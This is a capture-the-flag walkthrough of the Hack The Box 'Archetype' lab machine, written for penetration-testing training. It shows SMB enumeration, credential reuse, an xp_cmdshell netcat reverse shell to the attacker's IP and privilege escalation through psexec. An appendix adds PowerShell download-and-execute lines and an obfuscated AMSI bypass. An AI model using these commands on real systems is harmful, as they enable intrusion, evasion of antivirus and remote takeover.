# HTB - Starting points
## Archetype
Windows machine, beginner level


### Initial Access 
First of all, after creating instance, let's scan open ports by using nmap:
```
nmap -n  -sV <ip>
```


As we can see, the machine have opened ports on 445, 139 (Windows SMB) and 1433 for SQL Server.
Let's try list and access to directories (```-L``` flag) as anonymous user (```-N``` flag).
```
smbclient -N -L \\\\<ip>\\
```

```
smbclient -N \\\\<ip>\\backup
```


Checking backups folder give us information about interesting file `prod.dtsConfig`. Let's download it and check what's inside - use `get` inside `smb>`.

>A DTSCONFIG file is an XML configuration file used to apply property values to SQL Server Integration Services (SSIS) packages.



We obtained plaintext user and password for SQL server:

```Data Source=.;Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc;```

We can try to login to SQL server with obtained credentials.
I found useful link from [hacktricks.xyz](https://book.hacktricks.xyz/pentesting/pentesting-mssql-microsoft-sql-server#mssqlclient-py).
Used ```mssqlclient.py``` script from [Impacket repository](https://github.com/SecureAuthCorp/impacket) to gain access.



```
mssqlclient.py ARCHETYPE/sql_svc:M3g4c0rp123@10.10.10.27 -windows-auth     
```



With that, we can try to check if we have the highest ```sysadmin``` privileges. 
```
SELECT IS_SRVROLEMEMBER ('sysadmin')
```
If we have in return ```1``` response, we have the access to sysadmin.
In SQL with the highest privileges we can set up remote code execution via SQL service (```xp_cmdshell```).
We need to enable it and reconfigure.


As we can see our SQL service also running in archetype\sql_svc user contex, so we need to obtain access to normal user.

Let's try to drop shell into user context.

**UPDATE** - I switched to SMB share, beacuse of AMSI bypassing issue.

Open our SMB server with kali built-in Windows binaries, accessible for sql_svc user only.



```
sudo impacket-smbserver tacola /usr/share/windows-resources/binaries/ -smb2support -username sql_svc -password M3g4c0rp123
```

Then run a listener to catch incoming connections.
```
nc -lvnp 4444
```
We will use ```nc.exe``` (Netcat).
In ```msqlclient.py``` window copy and execute nc binary from unprotected directory (create our directory, whenever you can)
```
xp_cmdshell "mkdir c:\tmp\tacola"
xp_cmdshell "copy \\10.10.15.64\tacola\nc.exe c:\tmp\tacola\"
xp_cmdshell "c:\tmp\tacola\nc.exe 10.10.15.64 4444 -e cmd.exe"
```

You should see an open connection in your nc listener tab:


Yay! We have access to cmd in user context, so we can try to find first flag.
Let's check user desktop.


### Privilege Escalation

First thing, which is worth always to check are used commands history for Powershell/CMD.
- For CMD
```
doskey /history
```
- For Powershell - in Win10
```
type C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```



We obtained admin password in plaintext!

```net.exe``` command mapped backup folder with admin credentials, so we can use ```psexec.py``` [from Impacket](https://www.infosecmatter.com/rce-on-windows-from-linux-part-1-impacket/) to obtain privileged shell.

```
psexec.py administrator@10.10.10.27
```



That's it. Let's find flag...



### Unused useful stuff, discovered in challenge solving time

Useful [website](https://www.revshells.com/) to create any reverse shell.

Open HTTP server
```
python3 -m http.server 80
```


Download shell from HTTP server via ```xp_cmdshell``` by using Powershell:
```
xp_cmdshell "powershell Invoke-WebRequest -Uri "http://10.10.15.147/exploit.exe" -OutFile exploit.exe;"
xp_cmdshell "powershell "IEX (New-Object Net.WebClient).DownloadString(\"http://10.10.15.64/shell.ps1\");"
```


If you have a connection issue to your shell, modify firewall rules.
```
ufw allow from 10.10.10.27 proto tcp to any port 4444
```

[Bypassing AMSI](https://pentestlaboratories.com/2021/05/17/amsi-bypass-methods/) malicious powershell detection.

```
xp_cmdshell "powershell [Ref].Assembly.GetType('System.Management.Automation.'+$([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('QQBtAHMAaQBVAHQAaQBsAHMA')))).GetField($([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('YQBtAHMAaQBJAG4AaQB0AEYAYQBpAGwAZQBkAA=='))),'NonPublic,Static').SetValue($null,$true)"
```